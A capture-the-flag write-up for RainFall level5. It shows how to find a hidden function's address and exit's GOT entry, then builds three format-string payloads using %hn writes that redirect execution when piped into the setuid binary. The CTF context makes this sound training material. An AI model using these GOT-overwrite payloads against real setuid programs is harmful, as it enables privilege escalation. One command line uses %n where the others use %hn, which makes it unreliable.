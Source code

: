 ```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

offset of buffer of printf is `4`

## Payload

### Option 1

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0000 0804` = `2052`

cible 1 = `08049838` == `\x38\x98\x04\x08`
cible 2 = cible1 + 2 == `804983A` == `\x3a\x98\x04\x08`

value 2 > value 1.  
Lets overflow it
value2 = 2052 - 33956 = -31904 --> 33632 in uint with overflow


```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%4$hn"				//write cible 1
exploit += "%33632x"			//paddding to get to value 2 
exploit += "%5$hn"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';cat) | ./level5

run < <(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';)
```

## Option 2

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the low order bytes :
It'll be 33956 - 8 = 33948, because we already wrote 8 bytes, the two 4 bytes addresses

Then the high order bytes :
It'ill be 2052 - 33956 = -31904 --> 33632 in uint with overflow

No we can construct the exploit
It'ill be : \x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn

    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress
    %33948x will write 33948 bytes of padding
    %4$hn will write 33956 (0x84a4) at address 0x08049838
    %33632x will write 33632 byte of padding
    %5$hn will write 2052 (bc of overflow) at address 0x0804983a

```bash
(python -c 'print ("\x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn")';cat) | ./level5
```

## Option 3

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the high order bytes :
It'll be 2052 - 8 = 2044, because we already wrote 8 bytes, the two 4 bytes addresses

Then the low order bytes :
It'ill be 33956 - 2052 = 31904

No we can construct the exploit
It'ill be : \x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
\x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress
\x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
%2044x will write 2044 bytes of padding
%4$hn will write 2052 (0x0804) at address 0x0804983a
    %31904x will write 31904 byte of padding
    %5$hn will write 33956 (0x9838) at address 0x08049838

```bash
(python -c 'print ("\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")';cat) | ./level5
```



### TIPS

Pour lancer un payload dans gdb

```bash
(gdb) run < <(python -c 'print ("salut" * 5)';)
Starting program: /home/user/level5/level5 < <(python -c 'print ("salut" * 5)';)
salutsalutsalutsalutsalut
```
